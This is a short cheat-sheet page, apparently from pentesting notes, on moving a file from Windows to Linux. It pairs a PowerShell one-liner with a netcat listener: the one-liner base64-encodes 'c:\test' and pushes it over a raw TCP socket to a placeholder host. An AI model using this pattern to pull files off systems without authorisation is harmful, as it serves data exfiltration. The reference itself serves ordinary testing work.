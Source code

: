 # File Transfer

## From Windows to Linux

Windows 10 (Powershell):
```powershell
$socket = New-Object net.sockets.tcpclient('<LINUX_IP>',<PORT>); (New-Object System.IO.StreamWriter($socket.GetStream())).WriteLine([System.Convert]::ToBase64String([io.file]::ReadAllBytes("c:\test")); $socket.close();
```

Linux:
```
nc -lvnp <PORT>
```